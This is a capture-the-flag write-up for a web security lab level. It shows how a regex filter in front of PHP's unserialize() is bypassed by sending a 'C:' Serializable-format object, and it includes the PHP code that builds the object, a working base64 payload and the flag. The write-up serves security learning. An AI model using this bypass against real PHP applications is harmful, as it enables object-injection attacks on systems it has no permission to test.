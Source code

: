 ```yaml
---
layout: default
title: level20
---
```


Here, there is another `Object injection` using `unserialize`.
However, this time there is some sort of WAF:
```php
function sanitize($data) {
    /* i0n1c's bypass won't save you this time! (https://www.exploit-db.com/exploits/22547/) */
    if ( ! preg_match ('/[A-Z]:/', $data)) {
        return unserialize ($data);
    }

    if ( ! preg_match ('/(^|;|{|})O:[0-9+]+:"/', $data )) {
        return unserialize ($data);
    }

    return false;
}
``` 

The bypass it talks about is giving: `O:+4`, however, he mitigates here, by not checking whether there is number after.
We can see at the second if that it looks for some string from the kind: `{O:+9:"`, but if we will give `C` instead of `O`, as we can see here [The Serializable interface](https://www.php.net/manual/en/class.serializable.php).

This is an example which is took from there:
```php
<?php

class obj implements Serializable {
    private $data;
    public function __construct() {
        $this->data = "My private data";
    }
    public function serialize() {
        return serialize($this->data);
    }
    public function unserialize($data) {
        $this->data = unserialize($data);
    }
    public function getData() {
        return $this->data;
    }
}

$obj = new obj;
$ser = serialize($obj);

var_dump($ser);

$newobj = unserialize($ser);

var_dump($newobj->getData());
?>
```
> ```
> string(38) "C:3:"obj":23:{s:15:"My private data";}"
> string(15) "My private data"
> ```

Alright, so this will be our code:
```php
class Flag implements Serializable {
    private $data;
    public function __construct() {
    }
    public function serialize() {
        return serialize($this->data);
    }
    public function unserialize($data) {
        $this->data = unserialize($data);
    }
}

$flag = new Flag();
echo serialize($flag)."\n";
echo base64_encode(serialize($flag))."\n";
```

And the output is:
> `C:4:"Flag":2:{N;}`
> `Qzo0OiJGbGFnIjoyOntOO30=`

However, this isn't working with `C:4:"Flag":2:{N;}`, rather with `C:4:"Flag":0:{N;}`, which gives us this base64 encoded string: `Qzo0OiJGbGFnIjowOntOO30=`
(it writes `2` because this length of the payload, `N;`)

* payload: `Qzo0OiJGbGFnIjowOntOO30=`

![FLAG image](./images/level20.png)

**Flag:** ***`WEBSEC{CVE-2012-5692_was_a_lof_of_phun_thanks_to_i0n1c_but_this_was_not_the_only_bypass}`*** 
